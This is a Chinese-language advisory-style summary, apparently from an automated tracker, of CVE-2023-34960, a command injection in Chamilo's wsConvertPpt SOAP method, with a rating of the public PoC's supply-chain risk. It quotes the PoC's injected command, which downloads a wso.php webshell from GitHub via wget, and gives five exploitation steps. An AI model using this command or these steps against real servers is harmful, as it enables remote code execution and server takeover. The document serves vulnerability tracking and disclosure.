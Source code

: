 ## CVE-2023-34960-Chamilo-命令注入

**漏洞编号:** CVE-2023-34960

**漏洞类型:** 命令注入

**影响应用:** Chamilo

**危害等级:** 高危，可导致远程代码执行

**影响版本:** v1.11.* up to v1.11.18

**利用条件:** 需要可以访问Chamilo的`additional_webservices.php`。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2023-34960 是 Chamilo v1.11.* 到 v1.11.18 版本中 `wsConvertPpt` 组件中的一个命令注入漏洞。攻击者可以通过构造恶意 SOAP API 调用，在 PowerPoint 名称中注入命令来执行任意代码。

**有效性：**
根据漏洞库信息和搜索结果，该漏洞是真实存在的，并且有公开的PoC代码。PoC代码 `finder.py` 利用 SOAP 请求的 `wsConvertPpt` 方法，在 `file_name` 参数中插入命令。如果目标存在漏洞，这段代码会尝试执行 `uname -a;pwd;wget https://raw.githubusercontent.com/Mantodkaz/bekdur/main/php/wso.php;rm wso.php.1`。该命令会获取系统信息，当前路径，下载 webshell (wso.php)，然后删除下载文件重命名后的文件。如果执行成功，会在服务器上留下webshell。

**投毒风险：**
PoC代码中存在一定的投毒风险。首先，`wget`命令下载的 `wso.php` 文件来自外部资源 `https://raw.githubusercontent.com/Mantodkaz/bekdur/main/php/wso.php`。作者可以随时修改此文件，使其包含恶意代码。其次，PoC中硬编码的下载webshell行为，若webshell包含恶意逻辑，则存在风险。综合考虑，投毒风险约为 10%。这个风险评估考虑了webshell本身的潜在危害，以及 PoC 利用的直接性。

**利用方式：**
1.  攻击者首先需要确定目标 Chamilo 系统的 URL。
2.  构造一个包含恶意命令的 SOAP 请求，目标端点是 `main/webservices/additional_webservices.php`。
3.  将构造好的 SOAP 请求发送到目标系统。
4.  如果目标系统存在漏洞，恶意命令将被执行。在这个 PoC 中，命令会下载一个 webshell 并将其放置在目标服务器上。
5.  攻击者可以通过访问 webshell 来进一步控制系统。

**项目地址:** [Mantodkaz/CVE-2023-34960](https://github.com/Mantodkaz/CVE-2023-34960)

**漏洞详情:** [CVE-2023-34960](https://nvd.nist.gov/vuln/detail/CVE-2023-34960)